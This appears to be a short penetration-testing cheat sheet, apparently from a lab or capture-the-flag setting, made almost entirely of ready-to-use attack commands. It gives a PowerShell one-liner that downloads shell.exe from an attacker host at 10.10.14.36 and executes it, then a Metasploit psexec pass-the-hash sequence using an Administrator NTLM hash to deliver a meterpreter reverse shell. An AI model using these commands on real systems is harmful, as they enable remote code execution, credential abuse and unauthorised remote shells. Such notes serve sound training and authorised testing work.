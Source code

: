 # Powershell downloader

```
powershell.exe -Command "Invoke-WebRequest -Uri \"http://10.10.14.36:8000/shell.exe\" -OutFile \"C:\\Users\\kohsuke\\Desktop\\out.exe\"; Start-Process -Filepath \"C:\\Users\\kohsuke\\Desktop\\out.exe\"; Start-Sleep -s 360000"
```

# PSExec via LM-Hash
(https://mlcsec.com/abusing-windows-credentials/#pass-the-hash)
```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
msf exploit(psexec) > set SMBUser Administrator 
msf exploit(psexec) > set SMBDomain WORKGROUP
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > set lhost AttackerIP
msf exploit(psexec) > set lport Port
msf exploit(psexec) > run
```
